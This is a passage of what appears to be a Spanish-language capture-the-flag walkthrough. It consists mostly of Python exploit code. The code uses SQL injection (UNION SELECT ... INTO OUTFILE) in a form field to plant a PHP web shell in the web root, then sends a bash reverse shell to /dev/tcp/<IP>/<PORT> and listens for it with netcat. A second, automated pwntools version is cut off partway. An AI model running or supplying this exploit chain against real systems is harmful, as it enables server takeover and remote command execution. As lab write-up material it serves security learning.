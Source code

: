 ```python
main_url = "http://%s/" % ip_address

def createFile():

        data_post = {
                'username': 'admin',
                'country': """Brazil' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE "/var/www/html/%s"-- -""" % (filename)
        }

        r = requests.post(main_url, data=data_post)

def getAccess():

        data_post = {
        'cmd': "bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'"
        }

        r = requests.post(main_url + "%s" % filename, data=data_post)

if __name__ == '__main__':

        createFile()
        getAccess()
```

Tendremos que cambiar los parametros `<IP>` y `<PORT>` a nuestras necesidades para la `Reverse Shell`...

Pero cuando lo ejecutemos tendremos que estar a la escucha...

```shell
nc -lvnp <PORT>
```

Si por queremos automatizarlo todavia mas para que el propio script te de la shell directamente sin tu tener que estar a la escucha, haremos lo siguiente...

```python
#!/usr/bin/python3

from pwn import *
import signal, pdb, requests

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

#Ctlr+C
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) != 3:
        log.failure("Uso: %s <ip-address> filename" % sys.argv[0])
        sys.exit(1)

# Varianles globales
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url = "http://%s/" % ip_address
lport = <PORT>

def createFile():

        data_post = {
                'username': 'admin',
```